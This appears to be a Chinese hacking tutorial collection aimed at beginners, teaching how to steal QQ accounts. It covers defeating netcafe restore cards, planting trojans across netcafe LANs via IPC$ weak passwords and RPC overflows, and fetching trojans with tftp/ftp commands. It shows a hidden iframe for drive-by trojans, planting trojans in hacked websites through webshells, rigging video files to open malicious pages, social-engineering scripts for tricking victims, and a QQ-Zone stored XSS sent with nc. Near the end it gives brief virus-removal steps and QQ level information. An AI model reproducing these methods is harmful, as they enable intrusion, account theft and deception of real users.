硬盘还原卡也称硬盘保护卡，在教育、科研、网吧等地方使用较多，它可以让电脑硬盘恢复到保护前的状态。换句话说，不管是病毒、误改、误删、格式化硬盘等，都可以轻易地还原。还原卡的主体是一种硬件芯片，插在主板上与硬盘的MBR（主引导扇区）协同工作。大部分还原卡的原理都差不多，其加载驱动的方式类似DOS下的引导型病毒：接管BIOS的INT13中断，将FAT、引导区、CMOS信息、中断向量表等信息保存到卡内临时存储单元或硬盘隐藏扇区中，再替换原始中断向量，并将FAT信息保存到临时存储单元，用来应付对硬盘数据的修改。写入时数据看似进入硬盘，但并未真正修改硬盘中的FAT。还原卡是硬件设备，插在电脑主板上。


图 2


图 3

还原精灵是软件，它也可以保护硬盘上的全部数据，备份和恢复数据所花费的时间只有几秒钟，占用空间也很小。它利用的是虚拟还原数据保护技术，备份的并不是数据区本身，而是主引导扇区、操作系统引导扇区、文件分配表和目录区的数据。目前该技术还不能支持除第一物理硬盘之外的硬盘，也就是说在一个系统下有两个硬盘时，只能保护第一物理硬盘。


图 4

#### 破解篇

下面来介绍一些破解还原卡及还原精灵的软件。

- 1. **转存精灵**

这是一款还原精灵和还原卡破解软件，用于加载需要转存的应用程序。最新版本V2.0优化了程序结构，使生成文件更小，增强了对还原卡的破解功能。由于改进了程序，因此在繁体系统下也能正常运行，可以破解台湾地区的还原系统。来看使用方法，里面有两个文件……

一个是转存精灵 v2.0.exe 和 server.exe，这二者缺一不可。首先打开转存精灵 v2.0.exe，如图2，在 server 中选择跟它在一起的那个 server.exe，下面的木马当然就是选择你的木马程序了，在保存地址中输入一个保存的地方，建议放到系统盘的某处就可以了，然后下面还有选择图标的功能，如图3，你可以自己选择一个也可以不选择，程序默认生成跟记事本一样的图标，一切 OK 后我们点击生成，如图4。这样就能生成一个不被还原卡、还原精灵还原的木马了！


- 2. **Windows9X下的还原卡、还原精灵破解利器**

这款软件是我见过所有破解还原卡和还原精灵功能最强大的，很可惜只支持 Windows9X 系统，不过相信有些地方的网吧还是使用的 Win98 系统吧！这款利器，可以破解三十多种品牌的还原卡，是不是感觉到了它的强大？当然它还支持破解还原精灵，如图5，怎么样？一看就懂了吧！那我就不废话了！


- 3. **硬盘保护卡克星**

这款工具也是功能非常强大的破解硬盘保护卡以及还原精灵的利器，可谓是各位网吧黑客人手一份啊！运行后如图6、图7，它可以破解市面上近三十款的硬盘保护卡，可以和上面的那款利器相媲美了！如果选择还原卡破解，那么在你重启后还原卡将会失效，你可以重新设置还原卡的密码哦！用的时候大家一定要小心网管！如果选择格式化，那么不管机器上是否装有还原卡硬盘都将被彻底格式化，选择好后点击“确定”等待几秒钟即可重启，重启后就能为所欲为了！这款工具最大的特点是支持 Win9X / Win2K / WinXP / Win2003 操作系统！


- 4. **还原卡密码读取器**

再给大家介绍一款用来读取还原卡的工具，相对于上面的直接爆破，它显得比较实用一些。首先我们双击运行，在弹出的框中按回车键，如图8。接着屏幕会黑一下，大家不要害怕，然后会出现程序的主界面，它是一款 DOS 下读取密码的利器，如图9，点击“开始检测”后即可读取密码！然后我们开机之后按住 HOME 键（还原卡配置键）输入密码后就可以种植我们的木马了！


- 5. **还原精灵密码读取器**

这款还原精灵密码读取器是火狐出品的一款利器，但是其不足之处就是只能读取 Win2000 下的还原精灵密码，不过好在现在还有不少网吧都是使用的 Win2000 系统，所以还是比较实用的，我们双击运行后界面如图10，选择一个物理硬盘，一般都不用改，我还没有见过哪个网吧的电脑上安装有两块硬盘的，然后点击“读取还原精灵密码”，就能马上在主界面中显示出密码来！好了，先介绍到这里，更多工具还需要大家去发掘！


## 网吧盟军集结之

现在的网吧安全性普遍不是很高，内网中基本什么补丁都没打，而且网吧在安装系统时一般都把默认管理员的密码设置为空或者统一设置成同一个密码，这样就让我们这些小菜们有了可乘之机。我们可以利用 IPC$ 来对整个网吧进行入侵，所有网吧的 QQ 都难逃我手，哈哈！你还可以配合 QQ Sniffer 来使用，用 QQ Sniffer 来看所有网吧的 QQ，看中哪个就盗哪个！

要是网吧里的默认密码为空，那就再好不过了，我们可以去下载一个 IPC$ 入侵的工具，比如啊 D 网络工具包，里面就有“内鸡扫描”选项，就是利用 IPC$ 来扫描弱口令。这里我给大家介绍的是 20CN 推出的 IPC 扫描器，为什么用它？因为它全自动化，只要选上木马文件它会在扫描到有漏洞的电脑上直接种植。

界面如图1，我们填上开始的 IP 和结束的 IP（如图2）。点击“木马”下面的“文件名”旁边的“浏览”按钮来选择我们的 QQ 木马，记得一定要勾上那个“同步植入”前面的勾，这样才能实现全自动化（如图3）。一切 OK 后我们点“开始”按钮，不一会你就会看到程序马上有反应了，网吧的 QQ 已经是落入你的手里了（如图4），之后的事情就不用我说了吧，呵呵。

刚才是在默认密码为空的情况下，要是默认密码不为空呢？既然不为空那么我们就找出密码来，这里要用到命令行下的两款小工具：pslist.exe 和 FindPass.exe，它们就是获取本机管理员密码的东西。pslist.exe 是列出 winlogon 进程的 PID 值，知道了这个值我们再用 FindPass.exe 来找出管理员密码。

```
pslist.exe
findpass.exe DomainName UserName PID-of-WinLogon
findpass.exe SUPER-B3C64B170 administrator 232
```

然后回车（如图7），这样我们就找到了密码。再用这个密码来进行 IPC$ 扫描，效果就跟上面的一样，可以达到入侵全网吧的目的。此时使用啊 D 网络工具包，就可以方便地添加管理员密码（如图8），扫到之后我们右键单击这个主机选择种植，然后上传运行我们的木马就可以了。

最后，希望大家不要搞破坏哦！实在忍不住，可以找一个隐蔽点的地方，要注意网管哦！不然……嘿嘿！


## 网吧普遍杀篇之二

前面讲了怎样利用网吧中的弱口令及管理员密码设置不严来达到通杀网吧的目的，下面再给大家讲讲如何利用系统漏洞来通杀网吧。这里只是给大家说一个思路，具体情况要具体对待，我利用的是RPC溢出，虽然服务器已经基本打好补丁了，但是网吧可不一样，以为自己在局域网中就什么都不怕了，哈哈！

打开RPC图形溢出程序，如图1，开始攻击前我们要先配置一下，扫描的端口设为135、139或者445。再点击上面的“Port Scanner”来到端口扫描的版块，如图2，在“start IP”以及“Stop IP”填入网吧的局域网IP段，如图3。然后就可以扫描了，点击“start Scan!”，很快就能看到很多开放该端口的主机，如图4。

我们选中其中一个IP地址，然后单击左边的“test”会自动来到溢出板块，接着要选择操作系统（你可以看自己是什么系统，那么其它机器就是什么系统了，不要告诉我网吧里使用的不是同一个系统），要是溢出成功就会直接得到一个系统权限的shell。这个图形的溢出程序是正向溢出的，在右下角“shell port”处填上溢出的端口，上面选择溢出端口一般是135，然后点击“Exploit!”来进行溢出，成功后如图5。


怎么样，得到一个shell了吧，来看看怎么上传我们的QQ木马，在这个溢出程序中自带上传功能，可以利用这个功能上传我们的木马程序，如图6。也可以利用TFTP来上传，先要打开TFTP程序来监听，如图7，再在shell中输入TFTP命令，如图8。

```
bash
tftp -i 你的IP get 木马.exe
```


## 网吧盗号终极大全

这回给大家再详细地讲一下网吧盗号的方法，首先需要几个工具：啊拉QQ大盗1.6、精锐网吧破解工具和一款IPC$扫描工具，这里我用的是农民IPC$扫描器。


我们先来配置啊拉QQ大盗，前面已经很详细地讲过了，我再大概讲一下重要的地方。在邮箱收信模式中填入两个邮箱，一个用来收取普通QQ号码，一个用来收取靓号比如5位或者AB号ABC号，一切设置OK后记得选上下面的那个“还原精灵自动转存”，这样我们生成的木马就不怕还原精灵了，如图1。点击生成木马，保存后木马就生成了。


要是使用FTP服务进行上传的话，命令是：

```
echo ftp>test1.txt
echo open %d_IP%>test1.txt
echo aa>>test1.txt
echo aa>>test1.txt
echo get aa.exe>>test1.txt
echo bye>>test1.txt

ftp -s:test1.txt
```

然后在shell中输入 ftp -s:test1.txt 来上传，也可以用脚本上传。哈哈，已经就达到入侵整个网吧的目的了！


下面开始入侵喽！拿出刚刚准备的“精锐网吧破解”，我们利用它的读取密码功能来读取当前登录用户的密码……双击打开“精锐网吧破解工具V4.0”可以看到本机的帐号密码显示出来，如图2。


知道了密码还有帐号，我们将帐号保存到一个文本文档中，再将密码也保存到文本文档中，如图3、图4，然后打开农民IPC$扫描器，如图5，点击“木马”项旁边“浏览”按钮选择刚刚配置好的那个QQ木马，然后填入网吧的局域网IP段；在“用户名文件”中选择刚刚创建的用户名文本文件，“口令字典”选择保存密码的文本文件，并勾上“同步种植”，最后点击开始，程序就开始自动扫描，如图6。

## 第二章 QQ研究院

看到“复制成功”的提示了，如图7。怎么样，是不是马上就收到很多QQ了呢？哈哈，你还可以再换一款木马试试，比如看看某个MM在干什么之类的，一切都任由你摆布了！


怎么让网友点击呢？你可以自己做一个Flash网页，或者图片网页之类的，然后告诉他“这是我自己做的，你看看怎么样？”在这个网页中我们调用HTML的框架代码：

```
html
<iframe src="http://www.xiaoyu.com/music.htm" width="0" height="0" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

其中的www.xiaoyu.com/music.htm，换成你网页木马的路径就可以了。要是不会做网页怎么办呢？你可以先跟他说“看看这个最新的游戏外挂http://www.xioyu.com/music.htm”，然后再过一会告诉他“哎呀，不好意思发错了，应该是http://www.xxx.com/index.htm”。总之就是利用社会工程学来骗他打开你的网页木马，然后就等着收密码吧！

### 网页挂马盗QQ之一

开始首先来照顾一下初学者，我来讲讲什么是网页木马。它主要是利用软件或操作系统平台的漏洞，通过读取嵌入在网页HTML超文本标记语言内的Java Applet、JavaScript、ActiveX，来达到自动运行某个程序的目的，可以强行修改用户操作系统的注册表及系统配置程序，或非法控制系统资源盗取用户文件，恶意删除硬盘文件、格式化硬盘等等。这种非法恶意程序能够得以被自动执行，在于它完全不受用户的控制，一旦浏览含有该病毒的网页，便会给用户的系统带来不同程度的破坏！

知道了原理，我们来看看如何制作网页木马，网上有很多现成的软件，这里我用的是“专业版网页木马生成器”，这款网页木马利用的是IE的IFRAME溢出并且与CHM漏洞融合为一体，在Win98、Winme、Win2000、WinXP sp1系统IE6.0下顺利通过，我们来看看如何配置我们的网页木马。

首先，你要有一个支持html的空间用来存放网页木马，你可以去http://www.jn001.net/中国免费资源网申请一个。我们打开网页木马的配置端，如图1，选项使用默认的即可，然后将你的木马程序传到空间上，在“木马程序路径”中填上你的木马的web路径，如果怕出错可以在浏览器打开看看能否下载，在生成网页名称中你可以任意输入一个网页木马名称，最好是带点迷惑色彩的，比如music.htm之类的，下面的那个内存选项默认即可，在“输入你的木马程序名称”中写上你的木马的名字，这里要注意，你要先把你的木马放到生成器同目录下的CHM目录里，然后在这里输入你木马的名字。

下面的CHM文件名就是生成CHM文件后的名字，我们还是遵循迷惑人的起名原则。“CHM完整路径”的意思就是你存放生成的CHM文件的WEB路径，跟前面的木马程序路径是一个道理的，大家还不懂的话可以看看图2！都配置好后我们点击下面的“生成”按钮，这样在生成器目录下就生成了3个文件，如图3，将生成的3个文件上传到你的空间，记住要放到同一目录下才可以。


### 网页挂马之

刚才介绍的是让别人点击网页中木马，这回我来给大家讲讲入侵别人网站后的挂马方法！现在的网站漏洞多如牛毛，一个旁注工具一晚上就能拿下N个webshell，下面我来教大家怎么在网站上挂自己的马，这样以后只管定时收取邮件就可以了！呵呵！我比较喜欢用这个方法来盗取QQ号，屡试不爽啊！

先来温习一下什么是旁注吧，旁注是最近网络上比较流行的一种入侵方法，从字面上解释就是从旁注入，利用同一主机上某一网站的漏洞得到webshell，进而利用主机上的程序或者是服务所暴露的用户所在的物理路径进行入侵。按照我的理解给大家解释一下就是服务器好比是一座大房子，如果发现从正门进入不了这座房子，那么我们就可以利用旁注来进入，它就好比将所有这座房子打开的门还有窗户全部列在我们眼前，方便我们从中找出存在漏洞的门或者窗户；如果成功进入，自然就达到了我们入侵服务器的目的！

从whois技术公布以后，旁注攻击就开始流行开来，并且受到了广大菜鸟黑客的喜爱，那么它究竟是怎么查找一个IP对应的所有网站呢？我们现在使用的DNS域名其实都是需要统一向位于美国的国际域名组织进行注册的，而国际域名组织为了方便管理等原因，将域名的信息放到whois查询系统中，这样我们只要使用whois就能查出某域名解析的IP是什么了，得到解析的IP后，我们可以继续通过whois的查询功能，在域名的记录里找到所有解析到这个IP的域名信息，这样我们利用whois查询的目的也就达到了！

好的，知道了旁注的原理后，现在我们就开始盗号之旅，工具这次使用的是“旁注WEB综合检测程序”最新的3.5版，它不仅可以查询IP地址绑定多少个域名，还可以进行批量的漏洞检测，可谓是菜鸟必备的工具！界面如图1，接下来就是找网站了。怎么找？baidu也是我们菜鸟的好朋友，直接输入关键字就可以了，这样就能找到大批大批的网站了，如图2。

我们随便找个网站，复制下地址粘贴到旁注工具的“输入域名”里，先转换一下IP再来看看绑定了多少域名，点击“查询”，好多啊，如图3，一般这么多网站肯定有几个有漏洞，我们先来找找上传页面，果然有不少，如图4。可以挨个试试，在一个网址上点击右键，选“上传木马”，如图5，看看结果，呵呵上传成功，如图6。

我们来连接webshell，如图7，在里面写入一个木马，然后保存。我比较喜欢使用海洋2006，为什么？因为它的功能是我见过最强大的ASP木马。保存成功后我们来登录制作好的木马，如图8，哈哈！现在基本上已经成功了，要做的就是挂马了，我们打开FSO文件操作，接下来就是去站点根目录……


录，在里面找 index.asp 或者 index.htm 这样的主页文件，然后点击海洋上面的“编辑”按钮对它进行编辑，我们在最下面插入我们的木马，如图9，再点保存，这样的话所有打开这个网址的人都会中我们的木马了，如果有兴趣的朋友可以再试试提升权限，来进一步得到管理员权限。好了，到这基本上你就可以到邮箱等着收信了，说不定还能盗到一个6位或者5位的QQ哦！


### 3.18 聊聊 P2P 软件盗 QQ

P2P类的软件相信大家都用过不少吧，像百宝、网蛙，这回我来教大家如何利用这些软件来盗取QQ，这个方法主要还要看你共享出去的影片名字的诱人程度！

我来讲讲具体原理，不知道大家注意到没有，RealOne有这么一项功能，就是在影片播放到指定时间时能自动弹出指定的网页。现在明白我的意思了吧，我们把指定打开的网页换成我们的网页木马，那对方岂不就乖乖中招了？


好了，我们开始打造这样的影片吧！首先你要找一个.rm格式的电影或者短片，主要是名字要起的让人一看见就想下载。为什么是.rm格式的呢？因为这种格式默认是使用RealOne打开的。然后我们需要一个软件，就是Helix Producer Plus，我们就是利用它来制作自动弹出网页的.rm文件。当然事先还要准备一款网页木马。制作这样的影片可以利用Producer自带的两个工具，一个是DOS命令行下的，一个则是图形界面下的，我们当然选择图形界面下的那个。安装完Helix Producer Plus后，我们进入到安装目录下的RealMediaEditor目录，在里面有rmedtgui.exe文件，就是齿轮图标的那个程序，我们双击运行它，如图1。先别急着使用这个软件，先新建一个记事本，将它的名字命名为rmevents.txt（名字必须是rmevents），然后在里面输入：u 00:01:00.0 00:01:30.0 http://www.qq.com/，不要分行直接在第一行输入，这句话的意思就是在“00:01:00.0 00:01:30.0”这个时间段打开后面的URL，后面的URL换成我们的网页木马地址！好了，保存上面的rmevents.txt。回到刚才打开的rmedtgui.exe，点击File——open file来选择一个.rm的电影，如图2，选上这个电影后，我们再点击上面的tools——merge Events，如图3，选择刚才制作好的那个rmevents.txt，如图4，打开后就会加载它，可以看到一个进度条，如图5。到这里基本上已经制作完成了，我们现在要把文件输出选择，来保存我们做好的影片，如图6。


然后我们可以使用 RealOne 来打开测试一下，如图7，看到当播放到指定的时间点就会自动打开指定的网页，就算他快进只要是在我们设置的时间范围内也会弹出网页。好了，我们把做好的 rm 文件放到 P2P 共享目录下，共享出去，第二天就等着收信吧！


很多菜鸟可能会问，什么是社会工程学？下面我就为各位讲解一下什么是社会工程学，以及如何利用它来达到盗号的目的！

### 1. 什么是社会工程学？

一般来说，社会工程学就是使人们顺从你的意愿、满足你欲望的一门艺术与学问。无论任何时候，在需要套取到所需信息之前，实施者必须花时间做资料收集并进行必要的沟通行为。社会工程学定位在计算机信息安全链路中最脆弱的环节上。通俗地说，社会工程说白了就是骗术，但不止于骗术，也包括利用人性弱点、心理学知识等方式来获得目标系统的敏感信息。

### 2. 社会工程学在暴力破解上的应用

比如现在的 QQ 密码中相当比例是纯数字组合，且很多人与 EMAIL、信用卡等密码相同或稍作变化。攻击者可借此进行猜测。很多系统会限制连续输错次数（如 5 次后临时封禁），这能抑制暴力破解；但攻击者会转而利用“密码提示问题”进行社会工程，如“我的名字”“生日”等，通过社交平台或公开资料即可推断答案，从而盗取账号。


### 3. 盗号思路

开始时先确定一个目标就是想要盗的 QQ 号，然后就是要获得目标对我们的信任，从而得到对方一些敏感信息。如果对方是男的，那你最好就把性别改成女的加他，如果对方是女的则反之，这个道理我想大家都明白吧！然后呢？就是运用社会工程学了，运用好的话，可以直接问他要到 QQ 密码，当然你要记住放长线钓大鱼这个道理，有时牺牲一些东西去获得比这价值更高的东西是值得的，刚开始一定要把他当成朋友一样对待，主动提出要帮助他，比如帮他买个 QQ 会员什么的，等到他彻底对你没有提防的时候可以问他要 QQ 密码，编个好点的理由，我想要是他很信任你的话，会毫不犹豫的把密码告诉你喔！这个我可是深有体会的！还有一种思路，我们可以想方设法获取他的邮箱账号，然后再利用 E-mail 构造一封假的腾讯公司的邮件，说是由于各种原因他的密码保护的资料丢失，要求他去某某站点补填一份之类的诱惑人的话语来使他相信，当然了这些也只能算是非常简单的社会工程学利用！

### 4. 实例讲解

首先要准备一些美女或帅哥的图片，然后我们来看下面的例子，这里果冻 XX 就是盗号者的网名。

### 例子一


……中间略去 N 多！大家自己发挥！


把带马的网页发给她，这样就能达到我们的目的了！

### 例子二


此处省略 N 个小时的闲谈，因为我们要博取他的信任（大家也可以东扯西扯的和他聊半个小时闲话）。

如果你上面的工作全完成了，那你就可以把木马发给他了，他 100% 中招，但是方法一定要委婉哦。

例如：


```
http://wwwww.xxx.com/zhaopian.rar
```

（这个地址就是大家捆绑好的木马的下载地址了！）发完上面这句话就立刻下线，不要和他在谈了（注意：这个过程一定要快，不能给他回话的时间就下线，这就是把握住对方心理过程的重要性！）之后就等着收信吧！在此，我只是举一些例子罢了，真正的社会工程学要是运用好的话可能成效不止这些哦！主要看你的口才和头脑了！

### 3.20 盗号必备工具之密码查询器

怎么样，通过前面的文章是不是已经弄到很多 QQ 号了，靓号也不少吧！小菜们登录靓号后的第一步是什么呢？当然是查看有没有密码保护（不排除先看 Q 币数量的^_^）。要是你有 N 多的靓号你难道是登录网站一个一个查看是否有密码保护吗？这里给小菜们介绍一款东西“QQ 密保查询器”，它就是专门为盗号一族所设计的，可谓是盗号必备的利器啊！此程序是用 PERL 编写的，解压后有 4 个文件：allinone.exe 主程序，dl.txt 存放 HTTP 代理，qq.txt 存放要检测的 QQ 号，result.txt 存放查询后的结果，如图 1。

现在赶快去把没有设置密码保护的 QQ 设置上吧！这款工具在你盗到 N 多 QQ 时使用是最好的，百试不爽！


来看看具体怎么用，软件为了防止查询过多 QQ 号被腾讯封 IP（IP 被封后一般 20—30 分钟就又可以使用），所以支持 HTTP 代理查询密保的功能。如果你要查询的 QQ 号数是 13 个以上，建议使用此功能，需要使用代理的朋友先将代理按照如下格式导入。


```
192.168.0.1 : 80
255.211.244.2 : 8080
241.211.234.1 : 80
service.qq.com : 80

注：IP 和端口用 “:” 号分开
```

然后再将你要查询的 QQ 号写入 qq.txt 中，要注意每行放一个 QQ 号码，qq.txt 文件中不能出现非数字的字符。

一切准备好后我们来运行 allinone.exe，如图 2。进入后按回车配置参数，如图 3。是否使用代理可以根据要查询的 QQ 号数量决定，下面的无人值守状态建议不要选，如图 4。回车后程序开始探测，如图 5，结果很快会出来，如图 6，并且自动保存在程序目录下的 result.txt 中，如图 7。


### QQ-Zone 漏洞分析

#### 一、漏洞说明

QQ-Zone 中对于个人空间的名称变量检查不够严格，只是在客户端（本机）用 Javascript 作了简单检查，服务端并没有检查用户输入的数据是否合法，并且没有对外部提交作限制，导致攻击者可以写入任何危险代码。

> 该漏洞比较好实现，其实原理比较简单，就是网页程序中没有对用户提交的 HTML 代码进行过滤和转换，导致用户可以在其中插入恶意 HTML 代码，当其它用户浏览时这段代码就被浏览器所执行！

#### 二、发布日期

2005 年 5 月 28 日发布的！我在 6 月 3 日测试时此漏洞还存在！

#### 三、漏洞分析


为了分析这个漏洞，我可是花了10个Q币开通了黄钻，因为只有黄钻QQ空间才可以使用（我的精神可嘉吧！^_^！）。漏洞主要出在QQ-Zone的空间名称中，我们先打开QQ空间，在“设置”中来到“QQ空间名称”，然后在“输入空间名称”中随便输入点什么，再点“提交”，如图1、图2。可以看到当我们输入是否合法名称时就会通过本地网页的脚本检测，然后将我们的名称发送到QQ服务器上来更改，再来试试非法名称，我们在名称中输入HTML的标记“<>”点击确定，可以看到立即弹出图3的对话框。


从直觉上就能断定肯定是通过本地来验证，比如页面中的这段代码：

```
html
<script>space_minmouse()
function submit_form()
{
    if (!checkFormValue(form1)) return false;
    len = StrLenOfAscii(form1.spacename.value)/2;
    if (len > 12) {
        alert("对不起，您输入的名称太长，空间名称只能输入12个汉字，而您输入了"+len+"个汉字。");
        return;
    }
    form1.submit();
}

function reset_form()
{
    form1.reset();
}
</script>

```


这是在页面中直接验证用户输入的名称长度是否合法！为了能让各位菜鸟更好的理解，我们打开抓包工具WSockExpert.exe，选择QQ空间，如图4。点击OPEN，然后在提交“<>”时观察WSockExpert中是否有发送的数据，如图5，可以看到它没有向服务器发送任何数据，也说明了是通过本地来判断变量，即在客户端的网页来判断。

而服务端（就是QQ空间）没有对用户输入的变量进行任何过滤，这样我们可以直接用NC提交，在“名称”中输入合法名同时用WSockExpert抓包，如图6。


```
http
GET /cgi-bin/user/cgi_show_spacename HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Referer: http://q-zone.qq.com/client/?uin=...
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0 ...)

```


```
Windows NT 5.1; SV1)
Host: q-zone.qq.com
Connection: Keep-Alive
Cookie: pvid=..., zzpanelUin=..., zzpanelkey=..., clientver=1305; skey=...; uin=g0
```

将这段内容保存为 `test.txt`，然后将 `/cgi-bin/user/cgi_show_spacename` 改为 `/cgibin/user/cgi_show_spacename?spacename=<script>alert("test")</script>`（`=` 后面是你要提交的内容），现在用 NC 提交，将 NC 与 TEST.TXT 放到同一目录下，然后打开 CMD 切换到该目录，输入 `nc -vv q-zone.qq.com 80 < test.txt`，回车后等待一会儿，当屏幕出现 “open” 时按下 `Ctrl+C`，然后打开自己的 QQ 空间看效果，如图8。哈哈，成功了吧！可以看到 QQ 名称变成了 `<script>alert("test")</script>`，如图9。


#### 四、工具利用

具体利用过程说完了，来看看玄猫专门为该漏洞写的利用程序，如图10。在右边输入密码，左边输入跨站内容，也可以是挂的网页木马，如图11。

当你看到此篇文章而去实践时，腾讯有可能已经修补了该漏洞，毕竟这个漏洞的危害还是蛮大的。但为什么还要写出来呢？主要是为了让各位菜鸟明白如何去对一个漏洞进行分析与实践，希望大家学习方法而不是这个漏洞本身！


## QQ自动传播文件病毒清除办法

最近出现了不少的 QQ 尾巴病毒，虽然种类不同，但是本质是一样的，下面我就其中的一种做一下清除介绍。该病毒主要是向正在聊天的 QQ 用户发送类似“给你看看一个美女的照片.exe”、“这个软件对你QQ挂级肯定有用.exe”之类的消息，收到消息的 QQ 用户如果保存并运行此文件就会中毒，然后继续向其它正在聊天的 QQ 好友发送类似信息。病毒每隔几分钟就会发送一次病毒消息，严重干扰了用户正常的信息传递，并且病毒运行时会将用户的注册表锁定，同时锁定任务管理器等，还会修改注册表进行自动启动，病毒驻留内存时会隐藏在其它进程里面。

## QQ大盗木马机

首先我做了一个测试，打算中毒亲自体验一下杀毒详细过程，可惜我忘了关闭瑞星杀毒软件。 一接收立即杀掉，这说明这类病毒能被查杀。没有办法，只好通过QQ的远程协助来进入朋友电脑查看原因，果然不出所料，注册表被锁，任务管理器被锁。……

```
reg
REGEDIT4

[HKEY_CURRENT_USER\software\microsoft\windows\CurrentVersion\policies]
"disableregistrytools"=dword:0

```

解释一下，第一行也可以是“Windows Registry Editor Version 5.00”，这样只有Windows2000/XP环境下能用。另外，dword必须是小写……

我突然想起有另一种方法可以实现——使用用户策略。 在Windows 2000/XP/2003中，运行 `Gpedit.msc` 打开“组策略”，依次展开“用户配置—管理模板—系统”，将“阻止访问注册表编辑工具”设为“已禁用”，即可为注册表解锁。

下面恢复任务管理器：可修改 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下的 `DisableTaskmgr` 值为 `00000000`，或通过组策略“管理模板—系统—登录\注销”中的相关项恢复。最后提醒：上网聊天要警惕陌生文字诱导链接，避免中毒。

> **病毒名称**：Trojan/PSW.QQpass.br  
**影响平台**：Win9x/2000/XP/NT/Me/2003  
“QQ大盗”病毒利用IE浏览器MHT漏洞，通过恶意网页代码自动下载并执行CHM文件。

- 1. 木马运行后会在系统中生成 `NTdhcp.exe`，并在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 添加启动项 `NTdhcp`=`%SystemDir%\NTdhcp.exe`。  
2. “QQ大盗”主要窃取目标用户QQ号码、密码及资料信息。

#### 病毒防范措施

未感染用户：升级杀毒软件到最新病毒库并开启防火墙；修补系统MHT下载执行漏洞（微软补丁 MS04-013）。

已感染用户：安装正版杀毒软件并全盘查杀；运行REGEDIT定位 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，删除键值 `NTdhcp`=`%SystemDir%\NTdhcp.exe`。

#### 手工清除方法

先在任务管理器结束 `NTdhcp.exe` 进程，删除系统目录中的同名文件；再进入注册表 `...\CurrentVersion\Run` 删除 `NTdhcp` 启动项，完成清除。

## 第四章 挂线你的QQ

### 4.1 菜鸟必读

## QQ等级详讲

腾讯QQ 2004II beta1起全新推出在线时长功能，通过累积在线时长，你就可以获得相应的QQ等级，累积在线时长等级将有机会参加腾讯推出的奖励活动和享受相关的优惠服务，而不影响QQ的正常使用。拥有QQ在线时长等级为太阳（即16级）及以上的用户，可享受任意上传设置QQ自定义头像和建立一个QQ群等付费会员才有的功能！

在线时长从去年下半年开始统计，使用腾讯QQ（包括在线、隐身、离开状态），使用腾讯TM，或是在WinCE平台下用手机登录腾讯QQ，均计算在线时长。在线状态下不即时更新在线时长，每次下线后，更新本次的在线时长和等级，在线时长等级由太阳、月亮、星星三个图标标识。你可以在好友资料和好友资料浮出Tips显示中查看好友的在线时长等级，如图1。

| 累计时长(小时) | 等级图标 | 等级 |
|---|---|---|
| 20 | ☆ | 1 |
| 50 | ☆☆ | 2 |
| 90 | ☆☆☆ | 3 |
| 140 | ☾ | 4 |
| 200 | ☾☆ | 5 |
| ... | ... | ... |
| 1520 | ☀ | 16 |
| 5600 | ☀☀ | 32 |
| 12240 | ☀☀☀ | 48 |

## 下面来看看，QQ的等级有什么作用？

等级作用：腾讯为了突破1000万在线，创造一个神话，因此特在新版本的QQ中添加了等级设定。QQ等级在QQ功能中已经有所体现，即一定等级的用户可以免费使用一些付费功能，而且，高等级的会员更能享受到进一步的奖励。

- 1. 自定义头像：QQ会员或三钻贵族或在线时长等级为太阳（16级）及以上的用户，可任意选取本地图片设置。
2. 创建QQ群：会员具有创建群的权限，可创建永久的、具有固定号码的QQ群。在线时长1520小时（16级）以上的用户，也可以创建群。
3. QQ等级是用户身份的象征，拥有太阳以上等级，才能算做是真正的QQFANS。
4. QQ今后进行的一系列活动，都会以QQ用户等级为基准展开。QQ各等级所需在线时长明细表，如图2。

| QQ等级 | 需要在线时长 | 每天挂24小时需要天数 |
|---|---|---|
| 16（1个太阳） | 1520小时 | 64天（大约2个月） |
| 32（2个太阳） | 5600小时 | 234天（大约8个月） |
| 48（3个太阳） | 12240小时 | 510天（约17个月，1年半） |
| 64（4个太阳） | 21440小时 | 894天（约30个月，2年半） |
| 80（5个太阳） | 33200小时 | 1384天（约46个月，4年） |
| ... | ... | ... |
| 224（14个太阳） | 254240小时 | 10594天（约354个月，29年半） |

把鼠标移到好友头像弹出的那个对话框上，在弹出的小窗口上可以看到一排一共可以显示7个太阳，两排就是14个太阳。如果每天24小时在线，弄满太阳大概得30年；要是每天挂16小时，大概要45年；要是每天挂8小时（大多数也就能达到这个标准吧），大概要90年，哥们，好运，但愿你能活到那个岁数！

QQ等级的计算公式如图3。这里推荐一款QQ等级的计算工具，可以方便广大的QQ爱好者计算出自己挂机需要的时间，本软件就可以帮你轻松知道等级。

```
SN² + 15N
```


级与时间的对应关系，界面如图4。

在“等级A”中输入你现在的等级，在“等级B”中输入你想挂到的等级即可算出你要挂的时间，更多功能自己发现去吧！这样挂下去，估计以后的新新人类出门打招呼都是：“挂了么？”


## 挂Q软件之 myIM

时下QQ太阳等级已成为众多网友追求的新目标，且手中掌握多个QQ号码的网民人数众多，挂QQ已成为网民的一大活动，可是一台电脑同时挂上十几个QQ，占用内存实在太庞大，因此如果有一个兼容IM，能以一当十就好了！

myIM可以说是一款强大的专为挂机一族设计的挂机软件，它支持QQ、MSN、网易泡泡等各种功能。它最大的好处就是可以同时挂上几十个QQ，只是占用一个QQ的面积，而占用的内存甚至还没有一个QQ占用的内存大！MyIM是一个兼容多个IM软件为一体的即时通讯工具，在目前兼容性IM中，是功能发展最为完善和强大的一个，挂QQ只不过是利用了MyIM兼容性能的一个特点而已。MyIM除了能够兼容QQ外，还可以兼容MSN、Yahoo Message、ICQ/AIM等各种IM软件，并能够支持各个IM最新版本的各项功能，还能够把所有聊天协议的对话整合在一个聊天窗口，在MSN上面还可以玩自定义聊天背景和各种隐身设置，包括隐身登录、对所有人隐身、对特定人隐身等。此外，MyIM附带的音乐功能目前发展的也非常不错，歌曲数量丰富，更新速度快，操作方便，使用免费。最重要一点，虽然MyIM兼容了众多聊天协议，但是它占用的资源却非常少，MyIM在启动时占用的内存只有300K，而在进行聊天时也不过800K。所占用的资源相对于单独开通一个QQ占用的资源都还少！

## 功能特色：

- 1. 对四大主流协议的真正支持，四大协议全面兼容独立软件，使用方便去除一切广告骚扰！
